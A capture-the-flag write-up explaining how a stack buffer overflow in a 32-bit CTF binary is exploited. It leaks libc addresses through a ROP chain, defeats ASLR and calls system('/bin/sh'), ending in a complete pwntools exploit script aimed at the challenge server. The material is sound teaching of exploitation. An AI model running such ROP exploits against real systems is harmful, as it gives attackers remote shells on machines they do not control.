



# 1337-application (200 points)

This was an intermediate level pwn challange. We were only given a binary and the server address and port.

## 1. Enumeration

When we connect to the server, it greets us with a prompt, after we type in something, it responds and exits:

```sh
$ nc 1337b01s.duckdns.org 2525
Enter 1337 n4m3 >>> 1337 h4x0r
Okay, 1337 h4x0r... We will see...
```

Let's try executing the binary we downloaded, but this time with a longer input:
```sh
$ ./1337-application 
Enter 1337 n4m3 >>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA... We will see...

Segmentation fault (core dumped)
```
We got a Segmentation fault, so we likely have a simple buffer overflow!

Another thing we can try, is providing it some format specifiers to see if we have an insecure printf:
```sh
$ ./1337-application 
Enter 1337 n4m3 >>> %x %x %x
Okay, %x %x %x... We will see...
```
Unfortunately, we don't have a format string vulnerability.

Let's continue by analysing the binary.

## 2. Analysis

We ran it through the `file` command to get some basic information:
```sh
$ file ./1337-application 
./1337-application: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=fcc4e2d33eeaa22207338d0582f45d573208ce79, for GNU/Linux 3.2.0, not stripped
```

It's a 32 bit binary, dynamically linked and not stripped. Sweet, we can take a look at the symbols! I used ghidra decompiler to see the source code of the program.

```cpp
int main(char *param_1)
{
    vuln(buf);
    return 0;
}
```

We have nothing interesting in the main function, other than an uninitalized `buf` variable. 

```cpp
void vuln(char *buffer)
{
    char local_buffer [204];

    printf("Enter 1337 n4m3 >>> ", buffer);
    fflush(stdout);
    gets(buffer);
    strcpy(local_buffer,buffer);
    printf("Okay, %s... We will see...\n\n", local_buffer);
    return;
}
```

It asks us for an input, and then copies the string into the `buffer` passed as a parameter.

It seems like we can exploit the dangerous `gets()` and `strcpy()` functions, since they don't do any input length checking. It's also worth noting that there's no stack canary present, so there's nothing stopping us from overwriting the return address on the stack.

Now the plan is to make a shellcode that runs `/bin/sh` and put in on the stack, then overwrite the instruction pointer to point to the shellcode, and we have a shell. Sounds simple enough, right? Well...

Before we start writing the exploit though, it's best to perform a `checksec` to see if the binary has additional protections present:

```sh
$ checksec ./1337-application 
[*] '1337-application'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Huh, interesting. As we can see, the the NX (or No-eXecute) flag is set, so we can't execute code on the stack, which makes a our original plan impossible. So what's next?

## 3. Exploitation
Fortunately, we have another method of pwning this binary. Let me introduce you to [Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming), or ROP for short.

I'll give a short summary of how it works, but I won't explain it in great details in this writeup (since I don't entirely understand it either), but I provided some great resources at the end of the document, you should definitely check them out.

**TL;DR**: Return Oriented Programming works by reusing the already existing instructions in the executable, chaining them together to make them do whatever we want them to do, with some limitations, of course. We call these useful instructions `gadgets`. The name of this technique comes from that each gadget typically ends with a return instruction.

Now armed with this knowledge, let's make a new plan!

We're gonna go for a return-to-libc attack, which will allow us to execute libc functions that are not linked in the binary's PLT. The goal is to get a shell by calling `system("/bin/sh")`.

I'm using pwntools to automate this process.

### 1. Basic Buffer Overflow

First we need to find the offset to overwrite the return address on the stack. From the decompiled code, we can tell that the size of the buffer is 204 bytes, so we can give it a far longer pattern as an input, that we can recognize easily after overwriting the IP.

Fortunately we don't have to do it by hand, because pwntools has an easy way of generating a cyclic pattern.

```py
from pwn import *

# set up some environmental stuff for pwntools to work properly
context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

p = process("./1337-application")

payload = cyclic(300)
p.sendline(payload)

p.close()
```

After running the above code, we can run `dmesg` (as sudo) to see what the IP is:
```sh
$ sudo dmesg
[...]
[249191.787815] 1337-applicatio[3195468]: segfault at 63616164 ip 0000000063616164 sp 00000000ffe49030 error 14 in libc-2.32.so[f7cee000+1d000]
[...]
```

We've successfully overwritten the IP at `0x63616164`, which we can use now to generate a padding with the proper length, using pwntools' `cyclic_find` to find the offset, and using it as an input to the `cyclic` function.

Let's try setting the IP to `0xdeadbeef`:
```py
from pwn import *

# set up some environmental stuff for pwntools to work properly
context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

p = process("./1337-application")

padding = cyclic(cyclic_find(0x63616164))
payload = padding + p32(0xdeadbeef)
p.sendline(payload)

p.close()
```

```sh
[249935.313209] 1337-applicatio[3267699]: segfault at deadbeef ip 00000000deadbeef sp 00000000ffae8690 error 14 in libc-2.32.so[f7ca7000+1d000]
```

Success! Now that we can control the execution of the program, let's take a look at the next step.

### 2. Identifying the libc version

This is the most tricky part of the whole exploit. Because we don't know the libc version, we can't determine the offsets of the functions we want to call in libc. Fortunately, we can leak the addresses of functions in libc using the already available functions.

Using the `printf()` function, we can pass the address of a linked libc function from the GOT, and then look up the offset in a libc database, for example on https://libc.nullbyte.cat/. I leaked the address of `gets` as an example.

Pwntools has a great way of automatically finding gadgets and constructing a ROP chain for us, so we don't need to worry about the messy details. 

```py
from pwn import *

context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

elf = ELF("./1337-application")

# contruct the ROP chain
rop = ROP(elf)

# call printf with the function we want to leak the address of as a parameter,
# then continue by running the vuln function again
libc_function = "gets"
rop.call(elf.symbols["printf"], [elf.got[libc_function]])
rop.call(elf.symbols["vuln"], [elf.symbols["buf"]])

padding = cyclic(cyclic_find(0x63616164))
payload = padding + rop.chain()

r = remote("1337b01s.duckdns.org",2525)

r.sendline(payload)

# throw away the junk response 
r.recvuntil("\n")
r.recvuntil("\n")

# receive the leaked libc address
raw_leak = r.recv(4)
leaked_addr = u32(raw_leak.ljust(4, b"\x00"))

log.info("%s found at 0x%08x from address 0x%08x" % (libc_function, leaked_addr, elf.got[libc_function]))
```

As we can see, we successfully leaked the address of `gets` in libc:
```sh
[*] gets found at 0xf7dac8a0 from address 0x0804c014
```

If we run this script a few more times, we can see the higher bytes of the address is constantly changing:
```sh
[*] gets found at 0xf7d7f8a0 from address 0x0804c014
[*] gets found at 0xf7dfd8a0 from address 0x0804c014
[*] gets found at 0xf7e318a0 from address 0x0804c014
```

This is because ASLR is enabled on the server, which randomizes the memory layout, so we'll have to deal with that too.

For now, let's just grab the part of that address that isn't changing, which is the offset, and throw it into the libc finder site.



It gives us too many results. We can leak another function's address to get a more specific version, for example `__libc_start_main`:

```
[*] __libc_start_main found at 0xf7dbe550 from address 0x0804c01c
```



Now that we know the libc version, after we download it, we can continue with the next step.

### 3. Finding the libc base address

Because ASLR is turned on, we don't know the exact location of libc. So we need to calculate the it using the leaked address we got, using the same session. Fortunately pwntools got us covered yet again.

```py
[...]
# the variables leaked_addr and libc_function are from the previous code snippet

libc = ELF("./libc6-i386_2.23-0ubuntu11.2_amd64.so")

# by subtracting the address of our leaked address from the local library's address, we get the base address
# libc.address is pwntools' special variable, that we can use to tell pwntools to calculate all offsets from this base address
libc.address = leaked_addr - libc.symbols[libc_function]

log.info("libc base address is at 0x%08x" % libc.address)
```

```sh
[*] libc base address is at 0xf7d8c000
```
The base address ends with 3 zeros, so we know that it's valid. Now everything's set up to complete our exploit.

### 4. Get a shell

Using the same technique we used to execute printf, we can find the address of `system()`, and invoke it with the parameter `/bin/sh`, which we can find hardcoded in the libc binary we downloaded.


## Completed exploit
```py
from pwn import *

context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

elf = ELF("./1337-application")

p = remote("1337b01s.duckdns.org",2525)

rop = ROP(elf)
libc_function = "__libc_start_main"
rop.call(elf.symbols["printf"], [elf.got[libc_function]])
rop.call(elf.symbols["vuln"], [elf.symbols["buf"]])

padding = cyclic(cyclic_find(0x63616164))
payload = padding + rop.chain()

p.sendline(payload)

p.recvuntil("\n")
p.recvuntil("\n")

raw_leak = p.recv(4)
leaked_addr = u32(raw_leak.ljust(4, b"\x00"))
log.info("%s found at 0x%08x from address 0x%08x" % (libc_function, leaked_addr, elf.got[libc_function]))

libc = ELF("./libc6-i386_2.23-0ubuntu11.2_amd64.so")

libc.address = leaked_addr - libc.symbols[libc_function]

print(next(libc.search(b"/bin/sh\x00")))

log.info("libc base address is at 0x%08x" % libc.address)

rop = ROP(libc)
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh\x00"))])
rop.call(libc.symbols["exit"])

payload = padding + rop.chain()

p.sendline(payload)
p.recv()

p.interactive()
```



## Resources
LiveOverflow's binary exploitation series: https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN

LiveOverflow's video about ROP: https://www.youtube.com/watch?v=zaQVNM3or7k

LiveOverflow's video about return-to-libc: https://www.youtube.com/watch?v=m17mV24TgwY

JohnHammond's video about ROP: https://www.youtube.com/watch?v=i5-cWI_HV8o

